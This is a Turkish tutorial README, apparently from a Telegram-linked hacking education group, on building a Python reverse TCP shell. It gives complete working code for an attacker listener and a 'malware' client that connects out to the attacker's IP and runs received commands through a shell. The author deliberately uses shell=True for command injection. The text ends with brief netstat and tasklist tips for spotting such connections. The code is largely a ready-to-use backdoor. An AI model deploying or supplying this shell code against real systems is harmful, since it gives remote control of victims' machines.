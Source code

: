 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Python Reverse TCP Shell (Socket)
![Python Reverse TCP Shell (Socket)](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/1-python-socket-programming.png)

**Python**  ile  **Reverse TCP Shell**  yönteminden ve bir malware’in sisteme bulaştığı zaman saldırgana nasıl backdoor (arka kapı) açtığından bahsedip, kod bloğumuz içinde yer alacak satırlarları açıklayacağız. Yazımızın sonunda ise farkındalık oluşturmak adına birkaç linux ve windows komutundan bahsedeceğim.

Günümüzde gerek network katmanında gerekse host veya server katmanında dışarıdan gelebilecek bağlantılar için firewall’larda port kısıtlamaları son derece önem gösterilerek yapılmaktadır. Server üzerinde istenilmeyen servislerin aktif edilmeyerek socket açmaması, son kullanıcı bilgisayarlarına dışarıdan gelen tüm bağlantıların kapatılması, alınan önlemlerden bir kısmı diyebiliriz. Bunca güvenlik önlemi alınırken saldırganlarda boş durmadı ve “ biz sisteme sızamıyorsak onlar bizim ayağımıza gelsin” yöntemini geliştirdiler. Peki bu nasıl oluyor ? Bunun birçok yöntemi var, server sistemlerde kullanılan uygulamanın zaafiyeti olmasından kaynaklanan bir açıktan tutun bir malware’in sisteme bulaşmasına ve bu zararlı yazılımın saldırgana backdoor ile bağlanmasını sağlamaya kadar gidiyor. Buradaki kilit kelime “ **socket** ”.

[![Saldirgan Bekleyis](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/2-Socket.png)
*VE HACKER, SOCKET AÇARAK BEKLEYİŞE GEÇER…*

## **Nedir bu Socket?**

Network üzerinde çalışmasını istediğiniz bir uygulama veya servis olduğu zaman ethernet kartınızın ip adresi ile uygulamanın çalışması için verilen port bilgisi birleşir (socket) ve bu ikili uygulamanıza gelecek istekleri karşılamak için dışarıya bağlantı açar. İnternet üzerinden bağlandığınız web sitelerini buna örnek gösterebiliriz. Browser’ınıza bir site adresi yazdığınızda “**python4hackers.com:80**” diye çalışır. Siz her ne kadar “80” portunu görmesenizde (80 haricinde görürsünüz) python4hackers server’larına bu istek, “**ip:port**” isteği olarak gider ve python4hackers server üzerinde çalışan IIS veya Apache socket’in karşılığı olan uygulamayı kullanıcıya döndürür (Server tarafında bu socket açıksa).

	import socket #Socket oluşturmak için kullandığımız modül

	port=7790 #Saldırganın dinleyeceği port adresi
	ip="192.168.0.32" #Saldırgan'ın dış dünya ile bağlantısını sağlayan IP adresi
	
	def baglanti():
	    Socket = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
	    Socket.bind((ip,port))
	    Socket.listen(1)

	    socketaddr,ipaddr= Socket.accept()
	    print('Baglanti gerceklesti',ipaddr)

	    while True:
	        komut= input("Shell> ")
	        if 'cikis' in komut:
	            socketaddr.send('cikis')
	            socketaddr.close()
	            break
	        else:
	            socketaddr.send(komut)
	            print(socketaddr.recv(1024))
	baglanti()

Görüldüğü üzere server-client mimarisi bir uygulama yazıyorsanız, python’da socket kütüphanesini kullanıyorsunuz. Oluşturduğumuz fonksiyonu açıklarsak;

`Socket=socket.socket()` ile yeni bir **socket** oluşturduk.

`socket.AF_INET` ile çağırarak **IPv4** model bir socket olacağın belirttik.

`socket.SOCK_STREAM` ile **TCP** temelli bir haberleşme olacağını belirttik (SOCK_DGRAM udp için).

`Socket.bind((ip,port))` hatırlarsanız socket tanımını yaparken hep **ip:port** ikilisi diye bahsetmiştik. İşte burada da oluşturduğumuz Socket’e ip:port bilgisini atadık ve çalıştığı makinada (saldırgan makina) interface’in IP ve hangi port adresini dinleyeceğini söyledik. *"0.0.0.0"* yaparsanız üzerindeki tüm ip almış interface’leri dinler.

`Socket.listen(1)` aynı anda **kaç bağlantıyı dinleyeceğini** belirttik.

`socketaddr,ipaddrr=Socket.accept()`  oluşturduğumuz **socket’e gelecek bağlantıları kabul etmek için** accept()’i çağırdık ve client tarafından açtığımız socket’e bağlantı geldiği zaman *size iki liste elemanı döndürür*, karşı tarafla oluşan socket objesini ve bağlanan makinanın ipadresi:port bilgisi.

`while` döngüsünde, bağlantı oluştuğu zaman, raw_input() ile **saldırgandan komut girmesini bekliyoruz.** Girilen bu komutda “cikis” adli bir kelime geçiyorsa socket’i kapatmasını `socketaddr.close()` yani bağlantıyı sonlandırmasını, geçmiyorsa da girilen komutu, oluşan bağlantı socket’inde `socketaddr.send(komut)`  yardımı ile karşı tarafa göndermesini (malware yüklü makina).

`print socketaddr.recv(1024)` *TCP bir bağlantı olduğu için* gönderdiğimiz **komuta karşılık gelen paketi’in 1 Mb’lık değerini** ekrana yazıyoruz.

`baglanti()` komutu ile de fonksiyonumuzu çağırıyoruz yani çalıştırıyoruz.
##
Gelelim şimdi malware yüklü veya client tarafına.

	import socket
	import subprocess

	port=7790
	ip="192.168.0.32"
	def baglanti():
	    Socket=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	    Socket.connect((ip,port))

	    while True:
	        komut = Socket.recv(1024)

	        if 'cikis' in komut:
	            Socket.close()
	            break
	        else:
	            CMD=subprocess.Popen(komut, shell=True, stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	            Socket.send(CMD.stdout.read())
	            Socket.send(CMD.stderr.read())

	baglanti()​

Bir önceki komut dizinimizde detaylı olarak Python’da socket oluşturmayı gösterdiğim için burada fazla detaya girmiyorum.

`subprocess` modülü **alt işlemler oluşturmanıza** (bir işlem çalışıyorken aynı anda başka bir işlemi alt işlem olarak çalıştırmanıza) ve bu işlemin sonucunda dönen girdi/çıktı/hata değerlerini yöneterek *PIPE ile bağlamanızı* **sağlar**.

`Socket.connect((ip,port))` ile saldırgan makinamıza **bağlanma talebi yolladık.**

`komut=Socket.recv(1024)` bir önceki komut dizinimizde **saldırganın raw_input ile gönderdiği komutu,** *komut adlı değişkenimize atıyoruz* ve komut içinde cikis yazıyorsa(saldırgan bu komutu yollamıssa) socket’i sonlandırıyoruz (sürekli açık kalıp, bir sonraki aşamada socket kullanılıyor demesin diye).

`CMD.subprocess.Popen(komut, shell= True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)` kullanmamızın nedeni bir üst işlem ile aynı anda çalışacağını belirttik ve (komut) adlı değişkenimizi argüman olarak çağarıp, shell=True diyerek shell’i çağardık ve argümanımızı buraya yazdık. Normalde shell değerini injection ataklara karşı false yapmamızı önerirler ama bizim işimiz zaten bu ..

bir alt satırda yazan `socket.send(CMD.stdout.read())` ve `socket.send(CMD.stderr.read())` subprocess işleminde dönen çıktıyı ve hatayı okuyarak socket’e yani saldırgana yolluyoruz. Böylece saldırgan raw_input ile bir komut yolladığında, malware yüklü client makinamız bu komutu alıyor, subprocess ile shell’e yazıyor, dönen cevabı saldırgana açılan socket üzerinden yolluyor.

Evet Gelelim bir ekran görüntüsü ile bu yazdığımızı açıklamaya. Benim test ortamımda (VirtualBox) Windows 7 (Malware yüklü client), bir de Kali Linux yüklü saldırgan dediğim makinam var.

![Windows & Kali Machine](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/3-python-socket-programming.png)
Şimdi tek yapmamız gereken saldırgan makinada SocketServer.py scriptimizi çalıştıralım ve client tarafından malware’in çalışıtırıldığı zamanki durumu görelim.

![Attacker-Victim](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/4-python-socket-programming.png)
Gördüğünüz gibi kurban makinamız malware’i çalıştırdı ve saldırgan makina reverse TCP shell alarak, windows üzerinde bulunduğu dizinde neler olduğunu görmen için “dir” komutunu çalıştırdı. İşlemlerini bitirdikten sonrada “cikis” komutu ile socket’i kapattı. Tabi bu yaptığım örnek sadece  _reverse TCP shell nedir?_  sorusuna cevap niteliğinde basit client-server uygulamasıydı. Günümüzde birçok malware analiz edildiği zaman “7777” portunu kullandığınıda dip not olarak eklemek isterim. Gelir bir de analiz aşamasında client makinada neler oluyor çok ufak ona bakalım.

`netstat -naob` (yönetici yetkisi ile) komutunu çalıştırarak TCP veya UDP üzerinden bağlantı kurmuş makinaları görebilirsiniz. “o” parametresi size işlem id’yi, “b” parametresi ile o işlem id’ye karşılık gelen uygulama adını gösterir.

![python-socket-programming4](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/5-python-socket-programming.png)
Gördüğünüz gibi client makinamız saldırgan ip adresine “6161 ” bağlantı kurmuş. Tabi bu sizin için anormal bir trafik olduğunu düşündürüp, birde bu uygulamanın hangi serisleri çalıştırdığına bakmanız ihtiyacını doğuruyor.

`tasklist /svc` ilede çalışan uygulamalara atanan servislerin listesini gösterir.

![python-socket-programming5](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/6-python-socket-programming.png)
Malware kendini hiçbir servise bind etmemiş, tabi bizimki masum bir malware olduğu için bu böyle. Normalde siz bu işlem id’sini gördüğünüzde o işlemi sonlandıracağını tahmin ettiği için kendini başka bir servise bind eder ve daha detaylı bir analiz yapmanızı gerektirir.

**Not: Bu işlem için saldırgan makinanız ile client aynı network’de değilse, saldırgan uygulamanız için modem veya firewall’dan NAT tanımlaması yapmanız gerekir.**

Evet arkadaşlar basit anlamda bu yazımızda Reverse TCP shell’i anlatmaya çalıştık, umarım amaca hizmet edebilmişizdir. Bir sonraki yazımızda görüşmek üzere.
________________________________
📃 **Yandex.Disk Bünyemizde 780GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.